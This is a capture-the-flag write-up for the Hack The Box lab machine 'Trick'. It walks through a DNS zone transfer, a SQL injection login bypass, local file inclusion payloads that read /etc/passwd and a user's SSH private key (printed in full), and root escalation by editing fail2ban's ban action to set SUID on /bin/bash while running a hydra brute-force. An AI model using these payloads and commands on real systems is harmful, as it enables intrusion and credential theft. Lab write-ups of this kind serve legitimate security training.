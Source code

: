 # Trick - HTB(Easy)
## Itay Nafrin | October 18th

### IP = 10.10.11.166

### NMAP

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 61:ff:29:3b:36:bd:9d:ac:fb:de:1f:56:88:4c:ae:2d (RSA)
|   256 9e:cd:f2:40:61:96:ea:21:a6:ce:26:02:af:75:9a:78 (ECDSA)
|  256 72:93:f9:11:58:de:34:ad:12:b5:4b:4a:73:64:b9:70 (ED25519)
25/tcp open  smtp    Postfix smtpd
|smtp-commands: debian.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
| dns-nsid: 
|  bind.version: 9.11.5-P4-5.1+deb10u7-Debian
80/tcp open  http    nginx 1.14.2
|http-title: Coming Soon - Start Bootstrap Theme
|http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods: 
|  Supported Methods: GET HEAD
|http-server-header: nginx/1.14.2
Service Info: Host:  debian.localdomain; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### DNS ENUM

```
$ nslookup         
> SERVER 10.10.11.166
Default server: 10.10.11.166
Address: 10.10.11.166#53
> 127.0.0.1
1.0.0.127.in-addr.arpa  name = localhost.
> 10.10.11.166
166.11.10.10.in-addr.arpa       name = trick.htb.
>   

```

```
$ dig axfr trick.htb @10.10.11.166

; <<>> DiG 9.18.4-2-Debian <<>> axfr trick.htb @10.10.11.166
;; global options: +cmd
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.              604800  IN      NS      trick.htb.
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1
<strong>preprod-payroll.trick.htb</strong>. 604800 IN    CNAME   trick.htb.
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 84 msec
;; SERVER: 10.10.11.166#53(10.10.11.166) (TCP)
;; WHEN: Tue Oct 18 07:04:25 EDT 2022
;; XFR size: 6 records (messages 1, bytes 231)

```

As you can see there are is a domain trick.htb and it's sub domain preprod-payroll add the to the /etc/hosts file.

### Web Enum

When entering http://preprod-payroll.trick.htb you can see a login form but you can bypass it by a simple SQL Injection enter: 

```
username: ' OR 1=1 -- -

password: sdfsdf

```

This doesn't lead us to anything so I kept enumerating, maybe if I take the top 5000 subdomains file and prefix to each line the `preprod-` maybe I'll get a new subdomain to work on.

### Fuzz

```

$ cat subdomains-top1million-5000.txt
preprod-www
preprod-mail
preprod-ftp
preprod-localhost
preprod-webmail
preprod-smtp
preprod-webdisk
preprod-pop
preprod-cpanel
preprod-whm
preprod-ns1
preprod-ns2
preprod-autodiscover
more...

$ wfuzz -c -f sub-fighter -w subdomains-top1million-5000.txt -u 'http://trick.htb' -H "Host: FUZZ.trick.htb" --hw 475
Target: http://trick.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                               

000000254:   200        178 L    631 W      9660 Ch     "preprod-marketing" 

```

Interesting we got a new subdomain.


http://preprod-marketing.trick.htb/


So I started doing some recon and saw the `page` parameter interesting, maybe it's vulnerable to LFI:

```

$ wfuzz -c -f lfi-fighter -w /usr/share/wordlists/LFI_payloads.txt -u 'http://preprod-marketing.trick.htb/index.php?page=FUZZ' --hl 0 

Target: http://preprod-marketing.trick.htb/index.php?page=FUZZ
Total requests: 70466

=====================================================================
ID           Response   Lines    Word       Chars       Payload                               

000004790:   200        41 L     68 W       2351 Ch     "/..././..././..././..././..././..././
                                                        ..././..././etc/passwd"               
000012828:   200        41 L     68 W       2351 Ch     "/..././..././..././..././..././..././
                                                        ..././..././etc/passwd" 

```
```
$ curl "preprod-marketing.trick.htb/index.php?page=..././..././..././etc/passwd" | grep bash 
root:x:0:0:root:/root:/bin/bash
michael:x:1001:1001::/home/michael:/bin/bash

```

We got a `micheal` user.

```

$ curl "http://preprod-marketing.trick.htb/index.php?page=..././..././..././home/michael/.ssh/id_rsa"
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz
c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G
YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+
4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/
Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4
1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC
DkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0
+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE
hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L
jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6
IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C
aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/
KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC
tnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFPSwf01VlEZvIEWAEY6qv7r455Ge
U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0
fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V
PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS
3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA
fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT
AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn
In16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxYr9DP
JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN
jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+
IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

### SSH 

```
$ ssh michael@trick.htb -i id_rsa
Linux trick 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
michael@trick:/home/michael$ whoami && id && cat user.txt && ip a
michael
uid=1001(michael) gid=1001(michael) groups=1001(michael),1002(security)
1a32588edc435559fa1592260d78616c
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:eb:a6 brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.166/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:eba6/64 scope global dynamic mngtmpaddr 
       valid_lft 86400sec preferred_lft 14400sec
    inet6 fe80::250:56ff:feb9:eba6/64 scope link 
       valid_lft forever preferred_lft forever
```

### Priv Esc

```

$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart

```

fail2ban is a system that identifies a brute-force attack and you can exploit it by changing it's `iptables-multiport.conf` file, because it's owned by you. 

1. `nano /etc/fail2ban/action.d/iptables-multiport.conf`

Now you need to edit this:
   ```

   acitonban = chmod +s /bin/bash

   actionunbam = chmod +s /bin/bash

   ```

2. `$ sudo /etc/init.d/fail2ban restart`
3. While your running step 2 you need to attack the machine via brute-force.

`$ hydra -l 0xfad3 -P /usr/share/wordlist/rockyou.txt ssh://trick.htb`

4. meanwhile /bin/bash file is going to change its permissions to suid.

```

$ bash -p 
root@trick:~# cat root.txt 
ee99916ae2ad5baf2ca5da5423b04858

```


more info - 
* https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/ 
* https://youtu.be/vAlkrw-o7m4?t=2247

